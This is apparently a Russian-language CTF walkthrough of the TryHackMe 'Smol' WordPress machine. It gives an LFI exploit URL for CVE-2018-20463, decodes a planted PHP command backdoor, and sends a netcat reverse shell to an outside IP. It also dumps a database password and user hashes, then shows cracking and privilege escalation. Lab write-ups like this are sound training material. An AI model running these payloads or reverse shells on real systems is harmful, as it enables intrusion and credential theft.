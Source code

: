 
![[../attachment/Pasted image 20250225231859.png]]
для доступа к сайту добавим target ip и domain в /etc/hosts

Изучив сайт мы видим что это wordpress и запускаем wpscan

![[../attachment/Pasted image 20250225232047.png]]

Из интересного видим jsmol2wp и находим CVE-2018-20463, которое дает нам LFI 
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

![[../attachment/Pasted image 20250225224202.png]]
Находим пароля и логин пользователя, заходим в wp-admin и видим приватный пост 

![[../attachment/Pasted image 20250225232310.png]]
Читаем  исходный код с помощью найденной LFI и находим упомянутый backdoor
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php

![[../attachment/Pasted image 20250225232424.png]]
1. декодирует строку в base64
2. выполняет код с помощью eval
3. выполняет все что передано в cmd
Если мы расшифруем 

```
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
 
 Расшифруем php
<?   
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); }  ?> 
```

Попробуем rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.21.61.35 6653 >/tmp/f

http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.21.61.35%206653%20%3E%2Ftmp%2Ff

![[../attachment/Pasted image 20250225230421.png]]
python3 -c 'import pty;pty.spawn("/bin/bash");'

Проверим БД
1. подключаем mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G' -D wordpress
2. Проверяем таблицы show tables;
3. Проверяем колонки в таблице show columns wp_users;
4. запрашиваем пользователей и пароли  select user_login, user_pass from wp_users;
admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1

Сохраняем пользователей и хеши в отдельный файл и запускаем john
![[../attachment/Pasted image 20250225233048.png]]

подключение по ssh не удалось, но можем подключиться из существующего шелла.
Получаем первый флаг пользователя
![[../attachment/Pasted image 20250225233246.png]]
![[../attachment/Pasted image 20250225233327.png]]

diego принадлежит группе internal
![[../attachment/Pasted image 20250225233539.png]]


![[../attachment/Pasted image 20250225233626.png]]

![[../attachment/Pasted image 20250225233717.png]]
![[../attachment/Pasted image 20250225233731.png]]

![[../attachment/Pasted image 20250225233854.png]]

![[../attachment/Pasted image 20250225233911.png]]


![[../attachment/Pasted image 20250225234609.png]]


gege@smol:~$ python3 -m http.server 8080

wget http://www.smol.thm:8080/wordpress.old.zip

zip2john wordpress.old.zip > arch_hash.txt
![[../attachment/Pasted image 20250225234758.png]]

hashcat -a 0 -m 17225  arch_hash.txt /usr/share/wordlists/rockyou.txt

![[../attachment/Pasted image 20250225235126.png]]


![[../attachment/Pasted image 20250225235228.png]]


![[../attachment/Pasted image 20250225235302.png]]

![[../attachment/Pasted image 20250225235745.png]]
забираем root флаг
![[../attachment/Pasted image 20250225235847.png]]